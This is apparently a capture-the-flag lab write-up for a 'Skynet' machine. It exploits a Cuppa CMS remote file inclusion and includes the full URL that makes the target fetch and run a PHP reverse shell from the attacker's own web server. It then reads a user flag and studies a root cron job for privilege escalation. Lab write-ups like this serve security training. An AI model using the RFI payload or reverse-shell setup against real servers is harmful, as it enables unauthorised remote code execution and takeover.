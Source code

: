 This is cuppa cms. Inspecting this source code reveals a forgot password form that is commented out. After de-commenting it it doesnt seem to work still.

Let's check for Exploits
```bash
Searchsloit revealed 1 exploit
searchsploit cuppa
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion | php/webapps/25971.txt
```
After googling for "cuppa cms exploit" I found this [https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1306-exploits/cuppacms-rfi.txt](https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1306-exploits/cuppacms-rfi.txt)

Using this I can call a file hosted on my machine and execute it. **RCE**

I host a reverse php shell on my machine. This is my go to php shell [https://github.com/jivoi/pentest/blob/master/shell/rshell.php](https://github.com/jivoi/pentest/blob/master/shell/rshell.php)

Server the reverse php with the following. Make sure you are in the same dir as the shell
```bash
sudo python3 -m http.server 80
####Notice the sudo on the command, this allows you to use the port 80
```
Browse the the exploitable page
```
http://10.10.36.101/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.4.164/r.php
```

<p align="center">
  <img class="image" width="auto" height="auto" src="https://i.imgur.com/e2vVwPp.png">
</p>

We now have a low priv www-data shell!

---
### Privesc

One thing to note here is that you cannot `cd` into milesdyson's home dir. However you can cat the flag like so.

```bash
cat /home/milesdyson/user.txt
```
After checking the `crontab` something stood out
```bash
www-data@skynet:/usr/share$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
Root has a `backup.sh` running from milesdyson home dir. You can cat the script to see what it is doing.
